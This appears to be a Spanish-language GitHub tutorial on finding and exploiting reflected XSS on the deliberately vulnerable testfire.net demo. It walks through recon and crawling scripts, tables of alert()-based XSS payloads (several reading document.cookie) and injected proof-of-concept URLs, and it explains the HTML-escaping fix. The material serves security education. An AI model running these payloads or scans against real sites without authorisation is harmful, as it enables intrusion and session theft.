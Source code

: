 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Agregar HTTP Headers personalizados en Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_token] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener token github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<td valign="top" colspan="3" class="bb">
 <div class="fl" style="width: 99%;">
  <h1>Search Results</h1>
	<p>No results were found for the query:<br /><br />
	<script>alert(document.location)</script>
 </div>    
</td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## 7. Automatizar Busqueda Reflected XSS
> Nos apoyamos de la tools gf para encontrar parametros comunes con posibles xss reflect
```bash
go install github.com/tomnomnom/gf@latest
#clonar patrones
mkdir -p ~/.gf
git clone https://github.com/1ndianl33t/Gf-Patterns
cp Gf-Patterns/*.json ~/.gf
```
<details>
<summary>📜 xss.json</summary>

```bash
$  cat ~/.gf/xss.json
{
     "flags": "-iE", 
     "patterns": [
"q=",
"s=",
"search=",
"lang=",
"keyword=",
"query=",
"page=",
"keywords=",
"year=",
"view=",
"email=",
"type=",
"name=",
"p=",
"callback=",
"jsonp=",
"api_key=",
"api=",
"password=",
"email=",
"emailto=",
"token=",
"username=",
"csrf_token=",
"unsubscribe_token=",
"id=",
"item=",
"page_id=",
"month=",
"immagine=",
"list_type=",
"url=",
"terms=",
"categoryid=",
"key=",
"l=",
"begindate=",
"enddate="

]
}
```
</details>

> Filtrar el fichero que contiene las url katana que contengan patrones xss

```bash
cat testfire.net_katana_results.txt | gf xss

https://demo.testfire.net/survey_questions.jsp?step=a
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/disclaimer.htm?url=http://www.microsoft.com
https://demo.testfire.net/disclaimer.htm?url=http://www.netscape.com 
```
> Es necesario hacer análisis manual y pruebas para confirmar la vulnerabilidad.
```bash
#payload:
<script>alert(document.cookie)</script>
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=
https://demo.testfire.net/util/serverStatusCheckService.jsp?HostName=%3Cscript%3Ealert(document.cookie)%3C/script%3E
```
![image](https://github.com/user-attachments/assets/0c5a3d6a-883c-4322-825a-73bc2747f7f3)

<!-- espacio -->
> Kxss
>> Kxss parametros previos filtrados

```bash
cat demo.testfire.net_katana_results.txt 
https://demo.testfire.net
...
https://demo.testfire.net/survey_questions.jsp?step=a
```
```bash
cat demo.testfire.net_katana_results.txt | grep = | kxss > kxss_test.txt  
```
```bash
cat kxss_test.txt  
URL: https://demo.testfire.net/index.jsp?content=business_retirement.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; 
...
URL: https://demo.testfire.net/index.jsp?content=inside_press.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=business_cards.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: https://demo.testfire.net/index.jsp?content=inside_careers.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```

<!-- espacio -->
> Es necesario hacer análisis manual y pruebas para confirmar la vulnerabilidad
>> Kxss usando urlfinder (10/10)
```bash
urlfinder -d demo.testfire.net | grep = | kxss > kxss_demo.txt
```
```bash
nano kxss_scan.sh
chmod +x kxss_scan.sh
./kxss_scan.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo con subdominios
SUBDOMAINS_FILE="testfire.net_all_subs.txt"
# Carpeta de salida
OUTPUT_DIR="kxss_results"
# Crear carpeta si no existe
mkdir -p "$OUTPUT_DIR"

# Iterar sobre cada subdominio
while read -r sub; do
    echo "[*] Escaneando: $sub"
    
    # Normalizar nombre para el fichero de salida
    OUT_FILE="${OUTPUT_DIR}/${sub//./_}.txt"
    
    # Ejecutar pipeline
    urlfinder -d "$sub" | grep = | kxss > "$OUT_FILE"
    
    echo "[+] Resultados guardados en: $OUT_FILE"
done < "$SUBDOMAINS_FILE"

echo "[✔] Escaneo finalizado. Revisa la carpeta: $OUTPUT_DIR"
```
</details>

![image](https://github.com/user-attachments/assets/823d512c-4896-49a8-ab51-e5d9f42f5349)
![image](https://github.com/user-attachments/assets/fc70261a-1db1-4879-828a-50a5806e9cec)

```bash
└─$ cat altoro_testfire_net.txt  
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm&job=LoyaltyMarketingProgramManager:Marketing Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
...
URL: http://altoro.testfire.net/index.jsp?content=inside_jobs.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
URL: http://altoro.testfire.net/index.jsp?content=personal_loans.htm Param: content Unfiltered: [" ' < > $ | ( ) ` : ; { }] 
```
> Es necesario hacer análisis manual y pruebas para confirmar la vulnerabilidad

<!-- espacio -->
<!-- espacio -->
<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*
>>>>*Referencias: [AmrSec](https://www.youtube.com/watch?v=bAHNM8IInwE&ab_channel=AmrSec)*
>>>>>*Referencias: [Javo y LemonOfTroy](https://www.youtube.com/watch?v=EUWEdaNvxSM&ab_channel=ThreatXSecurity)*

